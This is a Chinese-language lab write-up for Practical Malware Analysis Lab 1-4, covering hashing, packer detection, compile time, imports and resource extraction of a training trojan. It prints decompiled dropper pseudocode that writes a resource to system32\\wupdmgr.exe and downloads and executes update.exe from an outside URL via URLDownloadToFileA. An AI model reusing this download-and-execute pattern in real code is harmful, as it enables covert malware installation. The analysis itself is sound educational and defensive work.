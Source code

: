 # lab 1-4

## QUESTION 1

> Upload the Lab01-04.exe file to http://www.VirusTotal.com/. Does it match any existing antivirus definitions?

文件的 sha256 哈希值：

```bash
$ sha256sum Lab01-04.exe
0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126  Lab01-04.exe
```

因此上传的 `url` 为：https://www.virustotal.com/#/file/0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126/detection

可以看到这同样是一个被 53 个引擎检测出来的木马。

## QUESTION 2

> Are there any indications that this file is packed or obfuscated? If so, what are these indicators? If the file is packed, unpack it if possible.

使用 `blackarch` 的工具 `packerid`：

```bash
$ packerid Lab01-04.exe 
['Microsoft Visual C++ v5.0/v6.0 (MFC)']
```

可见这个文件并没有加壳。

## QUESTION 3

> When was this program compiled?

PE 文件的文件结构可以参考[微软的官方文档](https://docs.microsoft.com/en-us/windows/desktop/debug/pe-format)。

可以找到在对象文件的的最开始，存在一个标准文件头，其中有一个 `TimeDateStamp` 域，指示了文件创建时的时间戳，可以使用以下的 python 脚本读取它：

```python
#！/usr/bin/env python3
from datetime import datetime
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-04.exe")
print(datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp))
```

```bash
$ python labb01-04.exe
2019-08-31 06:26:59
```

## QUESTION 4

> Do any imports hint at this program’s functionality? If so, which imports are they and what do they tell you?

使用 `blackarch` 的工具 `malscan`：

```bash
$ malscan Lab01-04.exe
...
[Imports Overview]

KERNEL32.dll
        0x402010 GetProcAddress
        0x402014 LoadLibraryA
        0x402018 WinExec
        0x40201c WriteFile
        0x402020 CreateFileA
        0x402024 SizeofResource
        0x402028 CreateRemoteThread
        0x40202c FindResourceA
        0x402030 GetModuleHandleA
        0x402034 GetWindowsDirectoryA
        0x402038 MoveFileA
        0x40203c GetTempPathA
        0x402040 GetCurrentProcess
        0x402044 OpenProcess
        0x402048 CloseHandle
        0x40204c LoadResource

ADVAPI32.dll
        0x402000 OpenProcessToken
        0x402004 LookupPrivilegeValueA
        0x402008 AdjustTokenPrivileges

MSVCRT.dll
        0x402054 _snprintf
        0x402058 _exit
        0x40205c _XcptFilter
        0x402060 exit
        0x402064 __p___initenv
        0x402068 __getmainargs
        0x40206c _initterm
        0x402070 __setusermatherr
        0x402074 _adjust_fdiv
        0x402078 __p__commode
        0x40207c __p__fmode
        0x402080 __set_app_type
        0x402084 _except_handler3
        0x402088 _controlfp
        0x40208c _stricmp
...
```

可见这个可执行文件导入了，执行命令、复制移动写文件、读取文件资源大小、读取文件树、打开关闭进程等危险函数，猜测这是实现了一个了文件查看器的恶意病毒。

## QUESTION 5

> What host- or network-based indicators could be used to identify this malware on infected machines?

我们用 `ida pro` 打开这个可执行文件，先查看它里面的字符串：

![04.exe.ida.strings](../04.exe.ida.strings.png)

我们发现 `\\system32\\wupdmgr.exe` 这样一个字符串，我们查找调用的位置，并查看调用位置的伪代码：

```c
// ...
  GetWindowsDirectoryA(&Buffer, 0x10Eu);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aSystem32Wupdmg);
  hModule = GetModuleHandleA(0);
  hResInfo = FindResourceA(hModule, Name, Type);
  lpBuffer = LoadResource(hModule, hResInfo);
  nNumberOfBytesToWrite = SizeofResource(hModule, hResInfo);
  hFile = CreateFileA(&Dest, 0x40000000u, 1u, 0, 2u, 0, 0);
  WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
  CloseHandle(hFile);
  return WinExec(&Dest, 0);
}
```

这段代码的大致用处应该是加载一个可执行文件的资源，然后把这个可执行文件资源复制到一个给定的位置（即 `\\system32\\wupdmgr.exe`），然后执行它。这并没有网络相关请求。

于是我们通过 `binwalk` 命令提取出其中的资源：

```bash
$ binwalk --dd=".*" Lab01-04.exe
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)
16480         0x4060          Microsoft executable, portable (PE)
```

这条命令将给定文件 `Lab01-04.exe` 中的资源提取到了文件夹 `_Lab01-04.exe.extracted` 中。

```bash
$ cd _Lab01-04.exe.etracted/

$ ls
0  4060
```

我们发现提取出了 `0` 和 `4060` 这两个资源，很显然 `0` 即为之前分析的可执行文件，我们再用  `ida pro` 分析其中的资源文件 `4060`：

![04.resources.ida.string](../04.resources.ida.string.png)

我们发现了一个 `URL` 地址，并且我们还在导入表中发现了 `URLDownloadToFileA` 这个导入函数，我们再分析调用这个字符串位置的伪代码：

```c
// ...
  GetTempPathA(0x10Eu, &Buffer);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aWinupExe);
  WinExec(&Dest, 5u);
  GetWindowsDirectoryA(&v7, 0x10Eu);
  snprintf(&CmdLine, 0x10Eu, aSS_0, &v7, aSystem32Wupdmg);
  if ( !URLDownloadToFileA(0, aHttpWwwPractic, &CmdLine, 0, 0) )
    WinExec(&CmdLine, 0);
  return 0;
}
```

这个段伪代码，向 `http://www.practicalmalwareanalysis.com/update.exe`，下载病毒资源文件并且保存到 `\\system32\\wupdmgrd.exe` 这个文件中。

所以需要监测网络中是否与 `http://www.practicalmalwareanalysis.com/update.exe` 建立了连接。

## QUESTION 6

> This file has one resource in the resource section. Use Resource Hacker to examine that resource, and then use it to extract the resource. What can you learn from the resource?

在第五问中已经使用 `binwalk` 提取出来了。